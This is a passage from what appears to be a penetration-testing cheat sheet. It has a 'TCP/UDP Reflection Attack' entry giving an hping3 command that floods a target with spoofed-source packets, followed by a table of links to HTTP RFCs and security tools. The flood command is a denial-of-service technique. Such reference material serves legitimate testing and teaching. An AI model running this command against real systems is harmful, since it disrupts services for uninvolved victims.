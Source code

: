 #### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

## Resources

| **Website**                     | **URL**                                                                         |
| ------------------------------- | ------------------------------------------------------------------------------- |
| RFC 2616 (HTTP/1.1)             | https://tools.ietf.org/html/rfc2616                                             |
| RFC 7540 (HTTP/2)               | https://tools.ietf.org/html/rfc7540                                             |
| RFC 9110 (HTTP/3)               | https://tools.ietf.org/html/rfc9110                                             |
| cURL Documentation              | https://curl.se/docs/                                                           |
| Wget Manual                     | https://www.gnu.org/software/wget/manual/wget.html                              |
| OWASP HTTP Security Cheat Sheet | https://cheatsheetseries.owasp.org/cheatsheets/HTTP\_Headers\_Cheat\_Sheet.html |
| Burp Suite Documentation        | https://portswigger.net/burp/documentation                                      |
| SQLmap Official Site            | https://sqlmap.org/                                                             |
| Nikto Web Scanner               | https://cirt.net/Nikto2                                                         |
| Metasploit Documentation        | https://docs.metasploit.com/                                                    |
